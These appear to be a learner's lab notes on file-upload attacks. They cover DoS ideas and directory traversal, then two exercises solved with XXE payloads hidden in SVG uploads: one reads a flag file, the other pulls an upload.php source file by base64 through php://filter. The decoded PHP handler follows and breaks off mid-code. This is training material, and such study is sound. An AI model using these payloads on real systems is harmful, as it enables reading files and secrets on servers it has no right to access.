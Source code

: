 In addition to these attacks, we may try a few other methods to cause a DoS on the back-end server. One way is uploading an overly large file, as some upload forms may not limit the upload file size or check for it before uploading it, which may fill up the server's hard drive and cause it to crash or slow down considerably.

If the upload function is vulnerable to directory traversal, we may also attempt uploading files to a different directory (e.g. `../../../etc/passwd`), which may also cause the server to crash. `Try to search for other examples of DOS attacks through a vulnerable file upload functionality`.

>[!Example]
>The first exercise of this section consists in uploading a svg. So I can bypass it like:

- First i got one working:

![](Pasted%20image%2020250219230314.png)

- Then I captured the request with Burp and sent it to the Repeater, where I used the following payload:

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```

![](Pasted%20image%2020250219230921.png)

![](Pasted%20image%2020250219231011.png)

>[!Example]
>The second exercise of this section consists in uploading a svg. So I can bypass it like:

- I'll use this payload to read the content of `upload.php`:

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

- I copied the output of it and decoded from base64:

```php
<?php
$target_dir = "./images/";
$fileName = basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!preg_match('/^.*\.svg$/', $fileName)) {
    echo "Only SVG images are allowed";
    die();
}

foreach (array($contentType, $MIMEtype) as $type) {
    if (!in_array($type, array('image/svg+xml'))) {
        echo "Only SVG images are allowed";
        die();
    }
}

if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    $latest = fopen($target_dir . "latest.xml", "w");
```
